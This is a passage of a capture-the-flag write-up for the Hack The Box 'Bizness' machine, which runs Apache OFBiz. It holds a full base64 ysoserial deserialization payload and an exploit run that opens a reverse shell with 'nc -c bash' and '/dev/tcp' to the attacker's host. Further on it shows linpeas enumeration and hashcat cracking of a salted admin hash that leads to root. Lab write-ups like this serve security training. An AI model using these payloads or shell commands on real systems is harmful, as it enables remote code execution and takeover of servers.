YXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQAUY3VybCAxMC4xMC4xNi4zOjU1NTUIADABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAyADMKACsANAEADVN0YWNrTWFwVGFibGUBAB15c29zZXJpYWwvUHduZXIyNzY5NDAxMjE5ODI2OAEAH0x5c29zZXJpYWwvUHduZXIyNzY5NDAxMjE5ODI2ODsAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAAvAA4AAAAMAAEAAAAFAA8AOAAAAAEAEwAUAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAA0AA4AAAAgAAMAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAFwAYAAIAGQAAAAQAAQAaAAEAEwAbAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAA4AA4AAAAqAAQAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAHAAdAAIAAAABAB4AHwADABkAAAAEAAEAGgAIACkACwABAAwAAAAkAAMAAgAAAA+nAAMBTLgALxIxtgA1V7EAAAABADYAAAADAAEDAAIAIAAAAAIAIQARAAAACgABAAIAIwAQAAl1cQB+ABAAAAHUyv66vgAAADIAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAPAAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJcHQABFB3bnJwdwEAeHEAfgANeA==</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

And now it works:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.252] 46840
GET / HTTP/1.1
Host: 10.10.16.3:5555
User-Agent: curl/7.74.0
Accept: */*
```

Ok now we need to inject a revshell into a file and download it from our HTTP server! And after some test I succeded to get a revshell via NC:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Bizness/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url 'https://bizness.htb/' --cmd 'nc -c bash 10.10.16.3 5555'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

Et voila!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.252] 55090

ls
APACHE2_HEADER
applications
build
build.gradle
common.gradle
config
docker
Dockerfile
DOCKER.md
docs
framework
gradle
gradle.properties
gradlew
gradlew.bat
init-gradle-wrapper.bat
INSTALL
lib
LICENSE
NOTICE
npm-shrinkwrap.json
OPTIONAL_LIBRARIES
plugins
README.adoc
runtime
SECURITY.md
settings.gradle
themes
VERSION
```

OBS: Using this variant(**https://github.com/pimps/ysoserial-modified**) let's you get a RCE directly via payload as it parses complex commands!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Bizness]
└─# ./java-se-8u43-ri/bin/java -jar ysoserial-modified.jar CommonsBeanutils1 bash '/bin/bash -i>& /dev/tcp/10.10.16.3/6666 0>&1' | base64 | tr -d "\n"
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAJSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WgAVX3VzZVNlcnZpY2VzTWVjaGFuaXNtTAAZX2FjY2Vzc0V4dGVybmFsU3R5bGVzaGVldHEAfgAETAALX2F1eENsYXNzZXN0ADtMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvSGFzaHRhYmxlO1sACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXEAfgAETAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA/////wB0AANhbGxwdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABv/K/rq+AAAAMwA/CgADACIHAD0HACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQAQamF2YS9sYW5nL1N0cmluZwcAMAEACS9iaW4vYmFzaAgAMgEAAi1jCAA0AQAsL2Jpbi9iYXNoIC1pPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy82NjY2IDA+JjEIADYBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAOAA5CgArADoBAA1TdGFja01hcFRhYmxlAQAdeXNvc2VyaWFsL1B3bmVyMjg2NDE0OTY4NzM5MjkBAB9MeXNvc2VyaWFsL1B3bmVyMjg2NDE0OTY4NzM5Mjk7ACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAAEAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAMAAOAAAADAABAAAABQAPAD4AAAABABMAFAACAAwAAAA/AAAAAwAAAAGxAAAAAgANAAAABgABAAAANQAOAAAAIAADAAAAAQAPAD4AAAAAAAEAFQAWAAEAAAABABcAGAACABkAAAAEAAEAGgABABMAGwACAAwAAABJAAAABAAAAAGxAAAAAgANAAAABgABAAAAOQAOAAAAKgAEAAAAAQAPAD4AAAAAAAEAFQAWAAEAAAABABwAHQACAAAAAQAeAB8AAwAZAAAABAABABoACAApAAsAAQAMAAAANQAGAAIAAAAgpwADAUy4AC8GvQAxWQMSM1NZBBI1U1kFEjdTtgA7V7EAAAABADwAAAADAAEDAAIAIAAAAAIAIQARAAAACgABAAIAIwAQAAl1cQB+ABIAAAHUyv66vgAAADMAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAPQAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJcHQABFB3bnJwdwEAeHEAfgAOeA==
```

* * *

## USER.txt

Here we can surf to the only other username ofbiz and get the first flag!

```
ofbiz@bizness:/home$ cd ofbiz
cd ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
18e4ee8e30beacee162c4e704a3ac716
ofbiz@bizness:~$
```

* * *

## Root.txt

Now to make my life easier I will start by uploading Linpeas and perform a whole system enumeration:

```
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                                                                                          
                               ╚═══════════════════╝                                                                                                                                                                                                         
OS: Linux version 5.10.0-26-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.197-1 (2023-09-29)
User & Groups: uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
Hostname: bizness
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                                                                                          
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)                                                                                                                               
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE
                                                                                                                                                                                                                                                             
                              ╔════════════════════╗


╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services                                                                                                                                                                                  
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew                                                                                                                                            
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew


╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users                                                                                                                                                                                     
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)    


opt/ofbiz/applications/accounting/config
/opt/ofbiz/applications/accounting/config/AccountingEntityLabels.xml
/opt/ofbiz/applications/accounting/config/AccountingErrorUiLabels.xml
/opt/ofbiz/applications/accounting/config/accounting.properties
/opt/ofbiz/applications/accounting/config/AccountingUiLabels.xml
```

Ok so here to make my life easier and apparently we were supposed to find a SHA1 hash that is supposed to be crackabe into /ofbiz folder:

```
fbiz@bizness:/opt/ofbiz/framework$ grep -lri password . | grep xml
grep -lri password . | grep xml
./entity/config/entityengine.xml
./entity/entitydef/entitymodel.xml
./documents/SingleSignOn.xml
./service/ofbiz-component.xml
./service/config/serviceengine.xml
./service/config/axis2/conf/axis2.xml
./service/src/main/java/org/apache/ofbiz/service/xmlrpc/AliasSupportedTransportFactory.java
./service/src/main/java/org/apache/ofbiz/service/xmlrpc/XmlRpcClient.java
./service/servicedef/services.xml
./resources/templates/AdminUserLoginData.xml
./resources/templates/AdminNewTenantData-PostgreSQL.xml
./resources/templates/AdminNewTenantData-Oracle.xml
./resources/templates/AdminNewTenantData-Derby.xml
./resources/templates/AdminNewTenantData-MySQL.xml
./common/data/CommonSystemPropertyData.xml
./common/data/CommonTypeData.xml
./common/config/SecurityUiLabels.xml
./common/config/CommonUiLabels.xml
./common/config/CommonEntityLabels.xml
./common/config/SecurityextUiLabels.xml
./common/widget/CommonScreens.xml
./common/widget/SecurityScreens.xml
./common/widget/SecurityForms.xml
./common/servicedef/services_email.xml
./common/servicedef/services.xml
./common/documents/SendingEmail.xml
./common/webcommon/WEB-INF/common-controller.xml
./common/webcommon/WEB-INF/security-controller.xml
./common/minilang/test/UserLoginTests.xml
./webtools/config/WebtoolsUiLabels.xml
./security/ofbiz-component.xml
./security/data/PasswordSecurityDemoData.xml
./security/entitydef/entitymodel.xml
ofbiz@bizness:/opt/ofbiz/framework$
```

That AdminUserLoginData.xml is interesting:

```
ofbiz@bizness:/opt/ofbiz/framework$ cat ./resources/templates/AdminUserLoginData.xml
<k$ cat ./resources/templates/AdminUserLoginData.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>ofbiz@bizness:/opt/ofbiz/framework$
```

Now we have a hash to crack but we need to find a salt! Now checking in Linpeas we can see what could be some DBses from Apache Ofbiz?

```
══════════╣ Modified interesting files in the last 5mins (limit 100)                                                                                                                                                                                                                                        
/opt/ofbiz/runtime/data/derby/ofbiz/log/log31.dat
/opt/ofbiz/runtime/logs/ofbiz.log
/tmp/hsperfdata_ofbiz/587
/tmp/hsperfdata_ofbiz/737
/tmp/hsperfdata_ofbiz/867
```

And we can see what it should be some datafiles from db?

```
-rw-r--r-- 1 ofbiz ofbiz-operator  102400 Dec 16 03:39 cff0.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff11.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff21.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff31.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff41.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff51.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff61.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff71.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff81.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cff91.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cffa1.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cffb1.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:39 cffc1.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:39 cffd1.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cffe1.dat
-rw-r--r-- 1 ofbiz ofbiz-operator    8192 Dec 16 03:38 cfff1.dat
-rw-r--r-- 1 ofbiz ofbiz-operator     533 Dec 16 03:37 README_DO_NOT_TOUCH_FILES.txt
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$
```

And now we can search in all the DAT files for strings containing Password, we pipe that for searching for SHA hashes:

```
hashcat -m 110 -a 0 hash /usr/share/wordlists/rockyou.txt --show
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

Now This hash is:

```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

Type: $SHA
Salt: $d
Hash: $uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

To get the hash we need to Base64 decode the Hash + Hex encode:



And now we can use hashcat with:

```
hashcat -m 110 -a 0 hash /usr/share/wordlists/rockyou.txt --show
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

and finally get the last flag:

```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ su -root
su -root
su: invalid option -- 'r'
Try 'su --help' for more information.
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ su - root
su - root
Password: monkeybizness

root@bizness:~# cat /root/root.txt
cat /root/root.txt
5d8342dea61781cf91e0084ca65e8562
root@bizness:~#
```

&nbsp;